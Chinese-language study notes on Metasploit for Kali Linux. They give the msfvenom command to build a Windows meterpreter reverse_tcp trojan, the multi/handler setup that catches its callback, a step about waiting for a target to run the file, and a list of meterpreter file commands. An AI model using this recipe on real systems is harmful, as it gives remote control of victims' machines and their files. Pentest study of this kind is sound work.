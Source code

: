```yaml
---
tags:
  - linux
  - kali
---
```


### 基于木马的渗透一般流程：

> 1. 使用msfvenom<mark>生成</mark>木马
> 2. 等待对方<mark>上钩</mark>
> 3. 使用handler模块<mark>利用</mark>木马

### windows平台简单渗透测试
1. **木马生成：** `msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<port> -f exe -o payload.exe`
2. **利用木马之前的配置：**
   1. `msfconsole` 进入MSF框架主控制台
   2. `use exploit/multi/hander` 使用模块
   3. `set payload windows/meterpreter/reverse_tcp` 设置攻击载荷
   4. `set lhost=<IP>`
   5. `set lport=<port>`
3. **执行：** `exploit | run`
4. **出现 <u>meterpreter></u> 即为成功** 
### msf(metasploit-frameword)简单理解
​	msf是一款可以快速利用已发现的漏洞或快速生成木马，进而进行渗透的框架。其模块和渗透成功后的执行脚本大多都是以Ruby语言实现的。
##### 渗透成功后的操作：
-  meterpreter
-  shell
##### 主要工具
- `msfvenom`	可以生成多平台的木马
##### 主要模块
-  `auxiliary`辅助模块
-  `exploit`漏洞模块
-  `payload`攻击载荷模块
##### 主要命令
- `use <moudule name> | <moudul index>`使用模块
- `show options` 列出当前使用的模块的配置参数
- `set <key>=<value>` 配置模块个属性的值
- `run` 一切准备就绪，开始监听

Stdapi: File system Commands
============================

    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
    checksum      Retrieve the checksum of a file
    cp            Copy source to destination
    del           Delete the specified file
    dir           List files (alias for ls)
    download      Download a file or directory
    edit          Edit a file
    getlwd        Print local working directory
    getwd         Print working directory
    lcat          Read the contents of a local file to the screen
    lcd           Change local working directory
    lls           List local files
    lmkdir        Create new directory on local machine
    lpwd          Print local working directory
    ls            List files
    mkdir         Make directory
    mv            Move source to destination
    pwd           Print working directory
    rm            Delete the specified file
    rmdir         Remove directory
    search        Search for files
    show_mount    List all mount points/logical drives
    upload        Upload a file or directory
